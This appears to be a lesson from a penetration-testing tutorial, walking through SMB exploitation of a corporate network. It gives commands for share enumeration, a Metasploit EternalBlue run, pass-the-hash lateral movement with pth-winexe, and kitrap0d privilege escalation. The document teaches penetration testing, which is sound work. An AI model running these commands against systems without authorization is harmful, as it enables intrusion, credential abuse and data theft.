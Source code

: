 ### Practical Life Example:

Suppose you're conducting a penetration test of a corporate network and want to exploit SMB vulnerabilities to gain unauthorized access to sensitive files on a target server. Here's how you can perform SMB exploitation in this scenario:

1. **Identify SMB Services**:
   - Use Nmap to scan the target network for hosts running SMB services:
     ```
     nmap -p 445 --script smb-enum-shares <target>
     ```

2. **Enumeration**:
   - Use `enum4linux` to enumerate SMB shares, users, and groups on the target server:
     ```
     enum4linux -a <target>
     ```

3. **Exploit Vulnerabilities**:
   - Exploit known vulnerabilities like EternalBlue (MS17-010) using Metasploit or other exploit frameworks:
     ```
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS <target>
     exploit
     ```

4. **Lateral Movement**:
   - After gaining access to a system, use tools like `pth-winexe` or `Mimikatz` to perform pass-the-hash attacks and move laterally within the network:
     ```
     pth-winexe -U <user>%<hash> //<target>/<share> cmd
     ```

5. **Privilege Escalation**:
   - Exploit misconfigurations or vulnerabilities to escalate privileges on compromised systems:
     ```
     use exploit/windows/local/ms10_015_kitrap0d
     exploit
     ```

By performing SMB exploitation, you can gain unauthorized access to target systems, exfiltrate sensitive information, and escalate privileges within the network. Always ensure that you have proper authorization before conducting SMB exploitation activities and adhere to ethical guidelines and legal requirements.

Stay tuned for the next lesson where we will explore another essential topic in network penetration testing: SQL Injection.

If you encounter any issues or have questions about SMB exploitation, refer to the official documentation of exploit frameworks or seek assistance from the cybersecurity community.

## Lesson 22: SQL Injection

